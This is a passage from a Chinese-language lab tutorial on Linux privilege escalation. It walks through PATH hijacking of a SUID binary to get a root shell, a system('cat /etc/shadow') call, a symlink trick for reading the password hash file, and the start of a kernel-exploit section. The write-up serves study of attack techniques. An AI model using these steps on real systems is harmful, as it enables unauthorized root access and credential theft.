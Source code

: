再次查看添加当前环境变量，可以看到`/usr/local/sbin`前面多了一个`.`，也就是当前目录

```
hacker@webper-virtual-machine:/tmp$ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/
```

执行suid_exp文件

```
hacker@webper-virtual-machine:/tmp$ ./suid_exp 
uid=0(root) gid=1001(hacker) 组=1001(hacker)
root@webper-virtual-machine:/tmp#
```

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210828104726.png)

可以看到这里已经从hacker用户切换到了root用户，说明已经提权成功，但是不知道为什么没有执行脚本里面的cat命令。

```
system("cat /etc/shadow");
```

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210828110946.png)

并且切换了其他Ubuntu靶机也没有执行成功，好奇怪。~~通过仔细检查教程中的C源码发现，`cat`命令其实是`/bin/bash`命令，所以当然没有任何输出。小伙伴们，那你们觉得怎么改才能看到`/etc/shadow`中的内容呢？~~

经过向某大佬求助得知，通过修改环境变量，创建与`/bin、/sbin、 /usr/bin`等目录下同名的可执行文件名，是`环境变量劫持漏洞`，该漏洞出现得非常早，存在于Ubuntu早期的系统中，在后来的版本中该漏洞已被修复，已经无法在后来的版本中利用。

大佬告诉我，即使这样，其实也能通过其他方式来利用，于是便尝试一下。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210828183323.png)

果然成功了，上面成功利用该漏洞最核心的一条命令是做软链接，软链接就像Windows桌面上的快捷方式。

```
ln -s /bin/cat /tmp/cat
```

然后其他步骤不变，就能成功利用了。



## 内核漏洞

查看系统版本

```
webper@webper-virtual-machine:~$ uname -a
Linux webper-virtual-machine 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:16:20 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
```

查找对应版本是否存在漏洞

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210827084740.png)
